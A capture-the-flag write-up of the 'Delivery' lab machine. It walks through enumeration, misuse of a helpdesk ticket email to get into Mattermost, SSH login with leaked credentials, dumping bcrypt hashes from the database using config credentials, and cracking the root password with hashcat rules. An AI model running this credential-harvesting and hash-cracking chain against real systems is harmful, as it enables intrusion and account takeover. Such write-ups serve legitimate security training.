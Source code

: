 Target: 10.10.10.222

## Enumeration:

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222

![](delivery1.png)

clicking contact us

![](delivery2.png)

adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

visiting the subdomain

![](delivery3.png)

creating ticket

![](delivery4.png)

```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```
![](delivery5.png)

checking inbox

![](delivery6.png)

activate the account using the link

![](delivery7.png)

Loot:

`maildeliverer:Youve_G0t_Mail!`

### Findings:Looking for attack vectors

Login using found credentials.


## Foothold:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

`root:PleaseSubscribe!21`

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
